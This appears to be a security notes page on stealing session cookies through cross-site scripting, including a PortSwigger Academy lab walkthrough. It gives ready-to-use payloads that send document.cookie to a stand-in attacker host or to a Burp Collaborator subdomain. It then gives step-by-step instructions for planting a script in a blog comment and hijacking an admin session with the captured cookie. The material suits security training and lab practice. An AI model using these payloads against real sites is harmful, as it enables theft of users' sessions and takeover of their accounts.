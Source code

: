 Stealing cookies is a traditional way to exploit XSS as most web applications uses cookies for session handling. Once an attacker is able to retrieve the victim's cookies, they can use it to impersonate the victim. However, this practice has some limitations:
- The victim might not be logged in.
- Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
- Sessions might be locked to additional factors like the user's IP address.
- The session might time out before you're able to hijack it.
> Note: Make sure that `HttpOnly` is set to false before attempting this attack, otherwise, it will not work. This is because the `HttpOnly` flag helps mitigate the risk of client side scripting from accessing the protected cookies.
## XSS Payloads
An attacker can start their own server using Python's `http` module or start a Netcat listener and submit the following payloads:
```javascript
document.location='http://ATTACKER-IP/index.php?c='+document.cookie;
new Image().src='http://ATTACKER-IP/index.php?c='+btoa(document.cookie);
```
Once the payload is triggered by a user visiting the vulnerable page, a HTTP request will be sent to the attacker's server or Netcat listener containing the stolen cookie.
## Example from PortSwigger Academy
1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body: document.cookie
});
</script>
```
This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server. 
4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's cookie in the POST body.
6. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.
> Note: If Burp Collaborator is not available, we can use [CanaryTokens](https://canarytokens.org/generate#) and [interactsh](https://github.com/projectdiscovery/interactsh) as alternatives.